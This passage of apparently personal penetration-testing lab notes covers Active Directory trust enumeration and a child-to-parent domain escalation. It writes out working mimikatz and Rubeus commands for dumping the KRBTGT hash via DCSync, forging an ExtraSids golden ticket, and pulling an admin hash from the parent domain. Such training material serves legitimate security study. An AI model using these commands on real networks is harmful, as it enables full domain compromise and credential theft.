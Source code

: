 * Child domains can be identified by the `IntraForest=True` attribute when calling `Get-ADTrust`.
* PowerView: `Get-DomainTrust`, `Get-DomainTrustMapping`
* We can enumerate users in child domains/trusted domains using `Get-DomainUser`

Enumeration on `cmd`: `netdom query /domain:inlanefreight.local trust`

* Query DCs: `netdom query /domain:inlanefreight.local dc`
* Query workstations: `netdom query /domain:inlanefreight.local workstation`

### Attacking Child -> Parent Trusts from Windows

SID History - tracks a user's SIDs in different domains, to ensure access.

* We can inject an administrator account to the SID history of another account, which grants us the permissions of the administrator.
* This attack works only if there is a lack of SID filtering protection (used to protect against cross domain authentication over a trust). We have to spoof the ticket from our compromised child domain.
* Note that our target user (whom we wish to grant more permissions) does not need to exist.

`mimikatz` ExtraSids attack:

* Firstly, obtain KRBTGT account hash in the child domain: `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`. This allows us to spoof TGT tickets (golden ticket attack).
* Then, get the SID of the child domain using `Get-DomainSID`.
* Then, get the SID of the enterprise admins group using `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`.
* Now, using `mimikatz`, create a Golden Ticket: `kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt`
* We now have a ticket for our user residing in memory (view using `klist`)

`Rubeus`: `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`

* Pass the `krbtgt` account hash, which is RC4 encrypted.
* `/sids` grants our account the same permissions as the enterprise admins group.

With the golden ticket, we can access resources in the parent domain (like file shares in the parent domain DC), or perform another attack like DCSync.

* Test access in parent domain: `ls \\academy-ea-dc01.inlanefreight.local\c$`
* DCSync for a user in parent domain: `lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL`

The idea here is that we spoof our own `hacker` account as an Enterprise Admin in our target parent domain (`INLANEFREIGHT.LOCAL`). We then obtain a golden ticket (TGT) for this account which grants us access to resources in the parent domain.

### Attacking Child -> Parent Trusts from Linux

We need the same bits of information:

* KRBTGT hash in child domain
* SID of child domain
* Name of a target user in child domain (`hacker`)
* FQDN of child domain
* SID of Enterprise Admins group of root domain
